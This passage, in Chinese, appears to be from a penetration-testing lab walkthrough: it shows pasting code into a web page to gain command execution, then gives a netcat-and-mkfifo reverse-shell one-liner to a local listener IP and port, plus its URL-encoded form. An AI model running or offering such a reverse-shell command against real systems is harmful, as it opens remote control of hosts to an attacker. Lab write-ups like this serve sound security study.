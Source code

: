# 构造命令执行

那么直接复制这个代码，然后粘贴到可访问到的页面，如`home`页面

![](./pic/34.jpg)

代码粘贴后，点击`save`，也就是保存，然后再点击`preview`也就是预览，这就不需要再去找路径去访问了，这时候就可以测试是否可用，发现完全可以

![](./pic/35.jpg)

那么尝试能否反弹一个`shell`，构造代码

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.10.6 9999 >/tmp/f

#进行url编码
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20192.168.10.6%209999%20%3E%2Ftmp%2Ff
```
